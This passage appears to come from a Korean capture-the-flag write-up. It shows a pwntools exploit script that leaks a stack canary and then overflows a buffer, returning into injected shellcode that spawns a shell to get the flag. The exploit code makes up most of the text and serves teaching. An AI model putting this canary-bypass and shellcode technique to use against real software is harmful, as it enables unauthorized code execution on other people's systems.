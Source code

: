 ```python
slog('buf <=> canary', buf2cnry)

# [2] Leak canary value
payload = b'A'*(buf2cnry + 1)  # (+1) because of the first null-byte
p.sendafter('Input:', payload)
p.recvuntil(payload)

cnry = u64(b'\x00'+p.recvn(7))
slog('Canary', cnry)

# [3] Exploit
SFP = b'S' * 8
sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b'A')
payload += p64(cnry)
payload += SFP
payload += p64(buf)

print(payload)
# gets() receives input until "\n" is received
p.sendlineafter('Input:', payload)
p.interactive()
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/187855183-5a2d1651-f614-42d5-941b-0d7c75517702.jpg" width = 450>
</p>

이렇게 해당 flag를 받아올 수 있다.
